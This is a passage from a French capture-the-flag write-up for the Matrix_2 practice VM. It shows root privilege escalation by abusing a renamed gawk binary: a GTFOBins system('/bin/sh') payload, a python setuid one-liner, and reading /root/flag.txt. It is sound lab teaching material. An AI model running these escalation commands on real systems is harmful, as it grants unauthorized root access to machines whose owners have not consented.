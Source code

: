 ```console

Examples:
        gawk '{ sum += $1 }; END { print sum }' file
        gawk -F: '{ print $1 }' /etc/passwd
```

Il s'avère que le binaire ```/usr/bin/morpheus``` n'est autre que l'utilitaire ```gawk``` qui dispose de son entrée dans [__GTFOBins__](https://gtfobins.github.io/gtfobins/awk/) !

```console
n30@Matrix_2 ~$ /usr/bin/morpheus 'BEGIN {system("/bin/sh")}' 

# id
uid=1000(n30) gid=1000(n30) euid=0(root) groups=1000(n30)

# python -c 'import os; os.setuid(0); os.setgid(0); os.seteuid(0); os.system("/bin/bash")'

root@Matrix_2 /usr/bin# id
uid=0(root) gid=0(root) groups=0(root),1000(n30)
```

Il ne reste plus qu'à lire le flag du concepteur [@unknowndevice64](https://twitter.com/@unknowndevice64), et à le remercier chaudement pour cette VM !

```console
root@Matrix_2 ~# cat /root/flag.txt 
╦ ╦┌─┐┬ ┬┬─┐┌─┐  ┌─┐┌─┐┌─┐┌┬┐┌─┐┬─┐  ┌┬┐┬ ┬┌─┐┌┐┌  ┌┬┐┬ ┬┬┌─┐
╚╦╝│ ││ │├┬┘├┤   ├┤ ├─┤└─┐ │ ├┤ ├┬┘   │ ├─┤├─┤│││   │ ├─┤│└─┐
 ╩ └─┘└─┘┴└─└─┘  └  ┴ ┴└─┘ ┴ └─┘┴└─   ┴ ┴ ┴┴ ┴┘└┘   ┴ ┴ ┴┴└─┘o
╔╦╗┌─┐┌┐┌┌┬┐  ┌┬┐┬ ┬┬┌┐┌┬┌─  ┬ ┬┌─┐┬ ┬  ┌─┐┬─┐┌─┐
 ║║│ ││││ │    │ ├─┤││││├┴┐  └┬┘│ ││ │  ├─┤├┬┘├┤
═╩╝└─┘┘└┘ ┴    ┴ ┴ ┴┴┘└┘┴ ┴   ┴ └─┘└─┘  ┴ ┴┴└─└─┘┘
┬┌─┌┐┌┌─┐┬ ┬  ┬ ┬┌─┐┬ ┬  ┌─┐┬─┐┌─┐
├┴┐││││ ││││  └┬┘│ ││ │  ├─┤├┬┘├┤
┴ ┴┘└┘└─┘└┴┘   ┴ └─┘└─┘  ┴ ┴┴└─└─┘o
   ╔╦╗┌─┐┬─┐┌─┐┬ ┬┌─┐┬ ┬┌─┐
───║║║│ │├┬┘├─┘├─┤├┤ │ │└─┐
   ╩ ╩└─┘┴└─┴  ┴ ┴└─┘└─┘└─┘
╔═╗╦╔═╔═╗
╠═╣╠╩╗╠═╣
╩ ╩╩ ╩╩ ╩
┬ ┬┌┐┌┬┌─┌┐┌┌─┐┬ ┬┌┐┌┌┬┐┌─┐┬  ┬┬┌─┐┌─┐
│ ││││├┴┐││││ │││││││ ││├┤ └┐┌┘││  ├┤ 64
└─┘┘└┘┴ ┴┘└┘└─┘└┴┘┘└┘─┴┘└─┘ └┘ ┴└─┘└─┘
```